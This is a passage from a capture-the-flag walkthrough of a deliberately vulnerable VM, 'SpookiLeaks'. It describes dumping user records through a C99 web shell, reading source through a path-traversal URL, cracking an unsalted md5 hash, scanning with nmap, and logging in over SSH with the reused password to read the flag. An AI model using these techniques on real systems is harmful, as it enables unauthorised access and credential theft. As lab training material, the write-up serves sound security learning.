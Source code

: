 Using C99, we can dump this data easily and see the following:

    id  username    password                            role    created                 modified
    1   ghost       37988bb25d36058671f959f06a7d51b9    admin   2014-04-03 20:53:19     2014-04-03 20:53:19

That's the same user name that we found in `/etc/passwd` and that password hash
looks like a basic md5.  We can verify that by checking out he source of that
custom password hasher at
`/media?file=....//....//Controller/Component/Auth/CustomPasswordHasher.php`:

    public function hash($password) {

        // Hash the password
        return md5($password); // md5 4 life

    }

Yup, unsalted md5.  If the password was salted we might start thinking about
brute forcing it.  However, unsalted passwords are often easily searchable due
to them being pre-computed en masse and published online.  For our case, a
simple
[Google search](https://encrypted.google.com/search?q=37988bb25d36058671f959f06a7d51b9)
reveals the password as `ScoobySnacks`.

### The Final Pieces

We now need to be able to log in to the the system.  Without physical access to
the box we can perform an [nmap](http://nmap.org/) scan to see what services are
up and running:

    $ nmap -sT 192.168.0.170

    Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-16 10:48 MST
    Nmap scan report for 192.168.0.170
    Host is up (0.0034s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds

Here we see that SSH is running on the target machine.  The last question
remaining now is wether or not the `ghost` user was smart enough to use
different passwords for his system account and his web application accounts.
All we have to do to test this is SSH into the server with his credentials:

    $ ssh ghost@192.168.0.170  # Substitute your VMs IP
    ghost@192.168.0.170's password:

Enter the ghost user's password and BOOM!  We're in!  All we have to do is grab
the content of flag:

    $ sudo cat /var/www/SpookiLeaks/Docs/flag.txt
    [sudo] password for ghost:

And you've got the flag:

         CONGLATURATION !!!

         YOU HAVE COMPLETED
           A GREAT GAME.

      AND PROOVED THE JUSTICE
          OF OUR CULTURE.

        NOW GO AND REST OUR
              HEROES !
